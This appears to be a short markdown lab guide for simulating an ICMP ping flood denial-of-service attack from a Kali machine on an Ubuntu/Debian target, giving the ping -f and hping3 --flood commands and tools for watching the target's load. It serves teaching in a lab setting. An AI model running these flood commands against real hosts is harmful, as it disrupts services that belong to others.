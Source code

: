 # DoS Ping Flood Lab

## Objective
Simulate a ping flood attack on a lab network and observe its impact.

## Requirements
- Attacker machine: Kali Linux
- Target machine: Ubuntu/Debian
- Tools: ping / hping3

## Steps
1. **Check connectivity**
   $bash
   ping -c 4 <target-ip>

2. **Simulate attack with ping**
    ping -f <target-ip>
    (The -f flag sends packets as fast as possible.)

3. **Simulate with hping3**
    $bash
    sudo hping3 -1 --flood -V <target-ip>

4. **Monitor target performance**
    On target machine:
        $bash
        top
        iftop
        dmesg

5. **Stop the attack**
    Ctrl + C on attacker terminal.
